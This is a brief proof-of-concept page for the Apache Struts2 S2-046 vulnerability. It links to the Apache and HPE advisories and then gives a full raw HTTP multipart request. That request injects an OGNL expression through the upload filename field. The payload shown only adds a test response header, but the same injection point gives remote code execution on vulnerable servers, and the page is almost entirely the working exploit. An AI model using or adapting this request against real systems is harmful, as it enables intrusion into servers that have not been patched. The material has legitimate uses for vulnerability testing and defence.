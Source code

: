 https://cwiki.apache.org/confluence/display/WW/S2-046
https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#.WNAr_RLyvpR
https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#

POC
POST /fileupload/doUpload.action HTTP/1.1
Host: 192.168.233.62:8086
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.233.62:8086/fileupload/upload.action
Cookie: JSESSIONID=36B0F1EAB8CFC76F833E041AEE8A7575
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 2
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAnmUgTEhFhOZpr9z
Connection: close
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}"
Content-Type: text/plain
Kaboom 
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z--
